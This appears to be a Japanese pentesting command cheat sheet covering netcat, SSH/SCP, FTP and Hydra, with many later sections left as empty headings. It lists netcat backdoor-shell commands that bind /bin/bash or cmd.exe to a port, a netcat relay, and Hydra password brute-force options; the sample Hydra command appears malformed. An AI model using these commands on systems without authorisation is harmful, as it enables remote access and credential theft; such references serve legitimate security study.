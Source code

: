 # high-frequency-tips
頻繁に使うコマンドのCheatSheet

## Netcat
オプション：
```
-l：リッスン
-n：名前解決を行わない
-k：コネクション確立後も接続をリッスンする
-v：接続状態などの出力を行う
-vv：接続状態などのより詳細な出力を行う
```
ヘルプの表示：
```console
$nc -help
```
ポート1234でリッスン：
```console
$ncat -nlv 1234
```
Backdoor Shell：
```console
$nc -l -p [port] -e /bin/bash
```
OR
```console
C:\>nc [port] -e cmd.exe
```
Netcat Relays(Listener-to-Listner)：
```console
$cd /tmp
$mknod backpipe p
$nc -l -p [port] 0<backpipe | nc -l -p [port] | tee backpipe
```
## SSH
オプション：
```
-p：ポート指定
-v：デバッグの出力
-vv：デバッグのより詳細な出力
-vvv："-vv"より更に詳細な出力
```
ターゲットのユーザに対してSSHで接続：
```console
$ssh user@[target(ip/hostname)]
```
### SCP(SSH File Transfer)
オプション：
```
-P：ポート指定
-v：デバッグの出力
-p：ファイルに付与されたタイムスタンプなどの情報を保持する
-r：再帰的(ディレクトリごと等)
*.txt：ワイルドカード
/home/user/{file1,file2,file3}：ファイルの複数選択 
```
リモートホストからローカルにコピーする
```console
$scp user@[target(ip/hostname)]:[remote_filepath] [local_filepath]
```
ローカルからリモートホストにコピーする
```console
$scp [local_filepath] user@[target(ip/hostname)]:[remote_filepath]
```
## FTP
オプション：
```
-s:filename ：接続時にスクリプトを実行する
```
ターゲットに接続：
```console
$ftp [target(ip/hostname)]
```
アップロード(FTP)：
```console
ftp>put [local_filepath]
```
ダウンロード(FTP)：
```console
ftp>get [remote_filepath]
```
## Hydra
オプション：
```
[service]：ssh, rdp, ftp, 
-C [file]：<login:pass>形式のUSERPASSリストを指定
-P [file]：PASSリストを指定
-U [file]：USERリストを指定
-s PORT：サービスが起動しているポート
-t：同時実行タスク数()
-v：詳細な出力
services: サービスの指定/対応サービス(asterisk afp cisco cisco-enable cvs firebird ftp ftps http[s]-{head|get} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] mssql mysql ncp nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres rdp rexec rlogin rsh s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp)
```
実行例：
```console
$hydra -C [target(ip/hostname)] ssh
```
## John the Ripper
## HashCat
## Metasploit Framework
 ### Meterpreter
 ### msfvenom
 ### Pivot
## Network
 ### Routing
 ### ICMP
 ### ARP
## Google Dork
## Linux General Command
## Windows General Command
